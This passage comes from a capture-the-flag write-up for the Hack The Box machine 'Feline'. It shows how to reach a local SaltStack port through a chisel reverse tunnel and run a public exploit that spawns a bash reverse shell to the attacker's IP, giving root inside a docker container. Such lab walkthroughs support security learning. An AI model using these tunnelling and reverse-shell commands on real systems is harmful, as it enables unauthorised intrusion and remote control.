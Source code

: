 The exploit looks for port 4505 / 4506 locally and try to do its magic there but unfortunately, the target system doesn't have the python module [salt](https://pypi.org/project/salt/) which is required by the exploit to function correctly. In this case, we can port forward 4506 using tools like chisel and run the exploit on our own machine and it will work.

**Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.**


Download [chisel](https://github.com/jpillora/chisel) on your machine and send it to the victim machine as well, using any file transferring technique.


After making sure that the target machine has `chisel`, run the following commands:

On host machine:

```bash
./chisel server --port 9080 --reverse
```

On target machine (change the IP address to your own IP):

```bash
./chisel client 10.10.14.44:9080 R:4506:127.0.0.1:4506
```

Now you should be able to run the exploit locally.

We can start a netcat listener and run our SaltStack exploit to make it run a bash reverse shell script.

On our host machine:

```bash
nc -lvnp 9003 # Any port you want
```

On target box (change the IP address to your IP):

```bash
# https://www.exploit-db.com/exploits/48421
python3 exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.44/9003 0>&1"'
```

As soon as this is done, you'll receive a shell on your netcat listener.


We are root user but we are not done yet, we got root shell inside a docker container where SaltStack is running. We still need to break out of the docker container to get root privileges on the host machine Feline.

![docker-shell](assets/img/posts/feline-htb/docker_shell.png)
